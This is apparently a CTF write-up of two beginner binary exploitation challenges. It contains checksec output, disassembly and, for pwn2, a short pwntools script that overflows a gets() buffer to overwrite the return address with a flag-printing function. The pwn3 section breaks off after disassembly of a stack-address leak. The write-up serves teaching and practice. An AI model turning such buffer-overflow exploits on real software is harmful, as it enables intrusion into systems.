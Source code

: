 <hr>
## pwn2

`32-bit executable, dynamically linked, not stripped`

This challenge is similar to last one expect that there is a function 'print flag' that prints the flag.

debugging in GDB...
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
The program simply reads the input and prints it.

```nasm
0x080485d2 <+32>:	lea    eax,[ebp-0xef]
0x080485d8 <+38>:	push   eax
0x080485d9 <+39>:	call   0x80483d0 <gets@plt>
```
#### EXPLOIT 
Again, a vulnerable gets() function is used to read the input. We can simply overwrite the return address of the function and get the flag as 'print flag' function is called.

```python
from pwn import *
 
junk="a"*243
flag=p32(0x0804854b)
 
print junk + flag
```


<hr>
## pwn3

`32-bit executable, dynamically linked, not stripped`

pwn3 is similar to pwn2 in the way it reads the input, via a gets() function.

debugging in GDB...
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
The program when run gives us a leak of a stack address. This address is the same as the address that gets() reads into.
```python
0x080484d7 <+12>:	lea    eax,[ebp-0xee]
0x080484dd <+18>:	push   eax
0x080484de <+19>:	push   0x8048600
0x080484e3 <+24>:	call   0x8048370 <printf@plt>
0x080484e8 <+29>:	add    esp,0x10
0x080484eb <+32>:	sub    esp,0xc
0x080484ee <+35>:	push   0x8048618
0x080484f3 <+40>:	call   0x8048370 <printf@plt>
0x080484f8 <+45>:	add    esp,0x10
0x080484fb <+48>:	sub    esp,0xc
```